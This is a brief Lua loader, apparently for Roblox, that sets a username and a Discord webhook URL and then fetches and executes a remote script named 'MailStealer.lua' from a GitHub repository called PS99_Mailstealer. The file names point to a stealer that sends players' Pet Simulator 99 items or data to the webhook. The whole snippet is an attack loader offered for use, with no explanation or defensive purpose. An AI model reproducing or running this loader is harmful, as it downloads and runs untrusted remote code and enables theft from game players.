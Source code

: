 Username = "tecenoblede12344"
LoadScreen = true 
Webhook = "https://discord.com/api/webhooks/1302369846226456687/MmlhRwc4fKBqOGame6Tyhw1LXVfzSWCgZWbYmhU9R2-8AJt9_uOg8GLTwZbzsAixjFi_" --

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
